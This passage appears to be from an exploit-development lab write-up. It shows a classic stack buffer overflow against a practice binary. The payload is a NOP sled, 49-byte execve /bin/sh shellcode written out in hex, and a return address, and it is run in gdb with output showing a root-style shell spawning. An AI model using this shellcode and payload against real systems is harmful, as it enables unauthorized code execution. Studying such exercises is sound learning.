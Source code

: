 We have 49 bytes shellcode so we construct our exploit.
>{NOP*215} + {shellcode 49 bytes} + {offset}

The complete exploit:
```
gdb-peda$ r $(python -c 'print("\x90"*215 + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42" + "\xe8\xf4\xff\xbf")')
Starting program: /kapi/exploitdev/stack_overflow_basic $(python -c 'print("\x90"*215 + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42" + "\xe8\xf4\xff\xbf")')
process 28080 is executing new program: /bin/dash
# uname -a
[New process 28086]
process 28086 is executing new program: /bin/uname
Linux BOEING 4.6.0-kali1-686-pae #1 SMP Debian 4.6.4-1kali1 (2016-07-21) i686 GNU/Linux
[Inferior 2 (process 28086) exited normally]
```
